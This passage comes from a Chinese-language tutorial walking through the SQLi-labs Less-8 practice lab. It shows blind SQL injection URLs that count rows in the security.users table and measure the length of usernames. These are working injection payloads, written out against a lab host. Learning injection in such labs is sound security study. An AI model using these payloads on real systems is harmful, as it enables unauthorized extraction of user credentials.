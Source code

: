 ascii码值为100,对应的字符为`d`,第一列为`id`,同理可以获取到其他两列为`username`, `password`。

### 获取字段 ###

获取字段也和上面的大同小异了,直接给结果。

也是获取字段数量->获取字段长度->获取字段名的流程。

#### 获取字段数量 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 13=(select count(username) from security.users)%23`

字段数是13。

![17](/img/sql/Lesson-8/17.png)

#### 获取字段长度 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 4=length((select username from security.users limit 0,1))%23`
